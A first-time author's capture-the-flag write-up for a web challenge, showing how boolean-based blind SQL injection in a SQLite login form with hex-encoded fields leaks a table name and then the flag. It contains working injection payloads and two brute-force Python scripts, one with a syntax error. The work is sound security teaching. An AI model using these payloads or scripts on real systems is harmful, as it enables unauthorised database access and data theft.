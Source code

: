 # B!inded! (Web Challenge)
### First it is my first time to write writeups so it will be nice if you have a negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag , Format : EGCERT{flag}
Points : 200
```

## Enumeration 
 
once i opened the challenge i found this page 

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint on the description that tell us we don't need to fuzzing so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , i have got response ```wrong password``` so now i know that we have admin username . 

i tried again with aboelnour and pass and i have got that user not found

so i fired up my burp and send ```a``` in user and ```a``` in pass

And i have noticed that username and password converted to hex and sperated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)

and the response of this request is

```
user not found 
```


And from the challenge name i got that it might be blind sqli 

so i typed ```aboelnour"``` in username and ```0``` in pass , i have got internal server error.
then i typed ```aboelnour" or 1=1 -- -``` and B00M i have got response ```Wrong Password```  , to make sure i tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

i tried ```admin" select version()-- -``` but i got internal server error 

so i tried ```admin"select sqlite_version()-- -``` , and response was Wrong password , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all , we have SQL Server SUBSTRING() Function , this function use to extracts some characters from a     string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have alos SQL LIKE Operator : you can check it on "https://www.w3schools.com/sql/sql_like.asp"



so if we have table name = users and column name = user we can enum users with query like this 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then i have searched about how to extract tables from SQLitedb and found this payloads in payloadsALLTheThings on github : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version


I got this query to Extract table names

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl in any position  

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

i tried it and i have got User not found so the first char not f 

So i have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so i have wrote python script to got table name 

----

## Exploit code 

first we need to convert our username to hex and concate it with 000061 , 61 is the password
second we need to brute force chars in i place then check if Wrong in response so we got the right char and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i got 
```
Flag table name : Flag_jnk249
```

so now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

i modified my previse script to got the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG The : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : https://www.linkedin.com/in/maboelnour12/
#### Facebook : https://www.facebook.com/maboelnour12
